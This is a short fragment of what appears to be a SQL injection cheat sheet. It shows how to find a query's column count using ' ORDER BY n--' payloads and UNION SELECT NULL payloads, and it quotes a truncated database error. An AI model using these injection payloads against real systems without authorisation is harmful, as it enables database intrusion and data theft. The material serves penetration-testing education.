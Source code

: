 <h2>Determining the number of coloumn</h2>

`ORDER BY` clauses and incrementing the specified column index until an error occurs.


`' ORDER BY 1--` 
`' ORDER BY 2--` 
`' ORDER BY 3--`

or other payloads

``' UNION SELECT NULL--``
`' UNION SELECT NULL,NULL--`
`' UNION SELECT NULL,NULL,NULL--`

If the number of nulls does not match the number of columns, the database returns an error, such as:

`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal n`


